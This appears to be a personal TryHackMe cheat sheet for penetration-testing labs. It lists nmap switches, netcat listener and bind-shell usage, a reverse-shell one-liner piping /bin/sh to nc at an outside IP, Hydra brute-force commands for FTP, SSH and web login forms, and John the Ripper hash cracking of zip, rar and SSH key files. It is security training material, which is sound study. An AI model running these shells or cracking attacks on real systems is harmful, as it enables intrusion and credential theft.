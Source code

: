 # TryHackMe - Cheat Sheet

## Useful Links

- [Sec Lists](https://github.com/danielmiessler/SecLists)
- [Identify Hash Types](https://hashes.com/en/tools/hash_identifier)

## NMAP

### Basic Switches

- -`sT` TCP Connect Scans 
- `-sS` SYN "Half-open" Scans 
- `-Su` UDP Scans (-sU)
- `-O`  Operating System
- `-Sv` Services that are running.

### Output Types

- `-oA` Three major formats
- `-oN` Normal format
- `-oG` Grepable format

## Reverse Shells

`nc -lvnp <port-number>`

- `-l` is used to tell netcat that this will be a listener
- `-v` is used to request a verbose output
- `-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p `indicates that the port specification will follow.
- `m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.9.59 4242 >/tmp/f`

### Bind Shells

`nc <target-ip> <chosen-port>`

### Netcat Shell Stabilisation

- Uses Python to spawn a better featured bash shell. `python -c 'import pty;pty.spawn("/bin/bash")'` 
- Give commands such as clear `export TERM=xterm` 
- Background the shell using Ctrl + Z. Back in own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

## Python3 

### Web Server

Format for a Python3 web server `sudo python3 -m http.server 80`

## Msfvenom 

Standard format for msfvenom `msfvenom -p <PAYLOAD> <OPTIONS>`

## Nessus (Vulnerability scanner)

### Basic Commands

Start Service `sudo /bin/systemctl start nessusd.service`

### Navigation & Scanning

- Which hosts are alive: host discovery
- Scan suitable for any host: Basic network scan
- Authenticate to hosts and enumerate missing update: Credentialed Patch Audit
- Scan for web applications: Web applications tests

## Hydra

### Hydra Commands

- For FTP: `hydra -l user -P passlist.txt ftp://MACHINE_IP`
- For SSH: `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`
  - `-l` Username
  - `-P` Use a list of passwords
  - `-t` Number of threads to use
 -  Web Forum: `hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/LOGIN_URL(Example /login):username=^USER^&password=^PASS^:F=incorrect" -V`
    - `-l` Sinlge Usnermae
    - `-P` Password List
    - `http-post-form` Type of form (post)
    - `/login url` 
    - `:username` The form field where the username is entered
    - `^USER^` Tell Hydra to use the username    
    - `:password` The form field where the password is entered
    - `^PASSWORD^` Tell Hydra to use the password
    - `-V` Verborse output for every attempt 
  - `ssh username@IP`  SSH Login 

## John the Ripper

### Basic Syntax

`john [options] [path to file]`

### Automatic Cracking

`john --wordlist=[path to wordlist] [path to file]`

### Format-Specific Cracking

`john --format=[format] --wordlist=[path to wordlist] [path to file]`

### Single Crack Mode

`john --single --format=[format] [path to file]` (Uses username to crack password)

### Passwword Protected Zip Files

- Convert zip file into a hash: `zip2john zipfile.zip > zip_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt`

### Passwword Protected Rar Files

- Convert rar file into a hash: `rar2john [rar file] > [output file]` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt rar_hash.txt`

### Passwword Protected RarFiles

- Convert shh2 file into a hash: `ssh2john id_rsa > id_rsa_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt`





